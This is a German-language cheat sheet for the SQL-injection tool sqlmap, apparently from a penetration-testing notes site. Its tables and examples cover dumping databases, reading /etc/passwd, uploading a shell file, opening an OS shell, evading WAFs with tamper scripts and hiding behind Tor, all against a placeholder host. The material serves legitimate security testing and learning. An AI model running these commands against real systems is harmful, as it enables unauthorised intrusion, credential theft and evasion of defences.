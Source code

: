 ```yaml
---
description: https://sqlmap.org/
---
```


# sqlmap

**SQLMap** ist ein Open-Source-Penetrationstesting-Tool zum automatisierten Erkennen und Ausnutzen von SQL-Injection-Schwachstellen in Webanwendungen. Es unterstützt zahlreiche Datenbanksysteme und kann neben der Erkennung auch das Extrahieren, Modifizieren und Löschen von Daten sowie das Ausführen von Betriebssystembefehlen automatisieren.



## Hauptfunktionen

| Funktion                        | Beschreibung                                                       |
| ------------------------------- | ------------------------------------------------------------------ |
| Erkennung von SQLi              | Automatisierte Erkennung von verschiedenen SQL-Injection-Techniken |
| Datenbank-Dump                  | Extraktion von Datenbankinhalten                                   |
| DBMS-Identifikation             | Automatische Bestimmung des verwendeten Datenbankmanagementsystems |
| Benutzer- und Passwort-Dump     | Extraktion von Benutzernamen und Hashes                            |
| Betriebssystembefehl-Ausführung | Befehle über SQLi auf dem Zielserver ausführen                     |
| Dateisystemzugriff              | Hochladen, Lesen und Schreiben von Dateien über SQLi               |



## SQLMap Cheatsheet

### **Grundlegende SQL-Injection-Erkennung**

| Befehl                                    | Beschreibung                              |
| ----------------------------------------- | ----------------------------------------- |
| `sqlmap -u http://ziel.de/index.php?id=1` | Testet URL auf SQLi                       |
| `--batch`                                 | Automatische Beantwortung aller Prompts   |
| `--risk=3 --level=5`                      | Erhöht Aggressivität und Umfang der Tests |



### **POST-Daten testen**

| Befehl                                                          | Beschreibung                |
| --------------------------------------------------------------- | --------------------------- |
| `sqlmap -u http://ziel.de/login.php --data="user=abc&pass=123"` | Testet SQLi über POST-Daten |



### **Datenbank und Tabellen auflisten**

| Befehl                                  | Beschreibung                            |
| --------------------------------------- | --------------------------------------- |
| `--dbs`                                 | Listet alle Datenbanken auf             |
| `-D <datenbank> --tables`               | Listet Tabellen der angegebenen DB      |
| `-D <datenbank> -T <tabelle> --columns` | Listet Spalten einer bestimmten Tabelle |
| `-D <datenbank> -T <tabelle> --dump`    | Dumpt Inhalt einer Tabelle              |



### **Authentifizierte Sitzungen**

| Befehl                                      | Beschreibung                               |
| ------------------------------------------- | ------------------------------------------ |
| `--cookie="PHPSESSID=abc123"`               | Nutzt Session-Cookie zur Authentifizierung |
| `--headers="User-Agent: xyz, Referer: xyz"` | Zusätzliche HTTP-Header setzen             |



### **Weitere Optionen**

| Option                                                 | Beschreibung                               |
| ------------------------------------------------------ | ------------------------------------------ |
| `--os-shell`                                           | Öffnet interaktive Shell (falls möglich)   |
| `--file-read=/etc/passwd`                              | Liest Datei vom Zielsystem                 |
| `--file-write=/tmp/shell.sh --file-dest=/tmp/shell.sh` | Datei hochladen                            |
| `--proxy=http://127.0.0.1:8080`                        | Leitet Verkehr über Proxy (z. B. Burp)     |
| `--tor --tor-type=socks5`                              | SQLMap über das Tor-Netzwerk laufen lassen |
| `--random-agent`                                       | Verwendet zufälligen User-Agent-String     |



## Beispiele

### **Login-Formular mit POST-Methode**

**Ziel**: Testen auf SQL-Injection in einem Login-Formular mit bekannten POST-Daten

```bash
sqlmap -u http://ziel.de/login.php --data="username=test&password=test" --dbs --batch
```

**Erläuterung**:

* `-u` gibt die Ziel-URL an
* `--data` enthält die POST-Daten (Feldnamen müssen exakt stimmen)
* `--dbs` listet alle Datenbanken auf, wenn SQLi erfolgreich ist
* `--batch` unterdrückt Interaktionen (nützlich in automatisierten Umgebungen)



### **WAF-Umgehung mit Tamper Scripts**

**Ziel**: Umgehen von WAF oder einfachen Filtersystemen

```bash
sqlmap -u http://ziel.de/product.php?id=1 --tamper=space2comment --dbs
```

**Beispiel für mehrere Tamper-Skripte**:

```bash
sqlmap -u http://ziel.de/page.php?id=1 --tamper=space2comment,between,randomcase --dbs
```

**Erklärung der Tamper-Skripte**:

| Tamper              | Funktion                                                               |
| ------------------- | ---------------------------------------------------------------------- |
| `space2comment`     | Ersetzt Leerzeichen durch SQL-Kommentare (`/**/`)                      |
| `between`           | Nutzt `BETWEEN`-Konstrukte anstelle von einfachen Vergleichsoperatoren |
| `randomcase`        | Ändert zufällig die Groß-/Kleinschreibung von SQL-Befehlen             |
| `charunicodeencode` | Kodiert Zeichen als Unicode (z. B. `SELECT` zu `\u0053\u0045...`)      |



### **WAF-Erkennung mit sqlmap**

```bash
sqlmap -u http://ziel.de/index.php?id=1 --identify-waf
```

**Erklärung**:

* `-u` gibt die Ziel-URL mit einer vermuteten injizierbaren Parameterstelle an
* `--identify-waf` löst eine passive Analyse aus, bei der `sqlmap` bekannte WAF-Signaturen erkennt
* Es wird **keine eigentliche SQL-Injection** versucht – nur WAF-Erkennung



**Beispielausgabe (möglich)**:

```
[*] starting @ 12:00:00 /2025-05-11/
[+] WAF/IPS/IDS identified: Cloudflare
```



